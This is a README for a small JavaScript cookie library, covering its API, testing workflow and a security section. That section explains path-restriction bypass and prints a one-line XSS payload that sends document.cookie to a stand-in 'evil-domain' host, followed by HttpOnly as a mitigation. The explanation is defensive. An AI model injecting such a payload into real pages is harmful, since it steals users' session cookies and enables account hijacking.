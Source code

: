 
# Cookiejs

[![Build Status](https://travis-ci.org/elementaryjs/cookies.svg)](https://travis-ci.org/elementaryjs/cookies)

A complete cookies reader/writer framework with full unicode support in under 1 kB with 100% test coverage.

## Credits

It's taken entirely from the [Mozilla Developer Network](https://developer.mozilla.org/en-US/docs/Web/API/document.cookie#A_little_framework.3A_a_complete_cookies_reader.2Fwriter_with_full_unicode_support).

## Syntax

### Setting a cookie
    Cookies.set(name, value[, end[, path[, domain[, secure]]]]);

### Getting a cookie value
    var value = Cookies.get(name);

### Removing a cookie
    Cookies.remove(name[, path], domain);

### Checking if cookie exists
    var has = Cookies.has(name);

### Getting a list of all cookies
    var keys = Cookies.keys();

## Security

It is important to note that the path restriction does not protect against unauthorized reading of the cookie from
a different path. It can easily be bypassed with simple DOM (for example by creating a hidden iframe element with
the path of the cookie, then accessing this iframe's contentDocument.cookie property). The only way to protect cookie
access is by using a different domain or subdomain, due to the same origin policy.

Cookies are often used in web application to identify a user and their authenticated session. So stealing cookie
from a web application, will lead to hijacking the authenticated user's session. Common ways to steal cookies include
using Social Engineering or by exploiting an XSS vulnerability in the application:

    (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

The HTTPOnly cookie attribute can help to mitigate this attack by preventing access to cookie value through
Javascript. Read more about [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

## Tests

Tests are set up in the `tests` directory and use the [Karma  test runner](https://karma-runner.github.io).

The project uses [GulpJS](//gulpjs.org) for the entire workflow. So make sure that you update the NPM requirements:

    npm update
    
Then to make changes and test use the default gulp task:

    gulp
    
This task watches the project directories, compiles the JavaScript, and runs all tests on the compiled JavaScript.

## Roadmap

Not much is planned. It does what it needs to. Feel free to submit issues or pull requests if you have any ideas.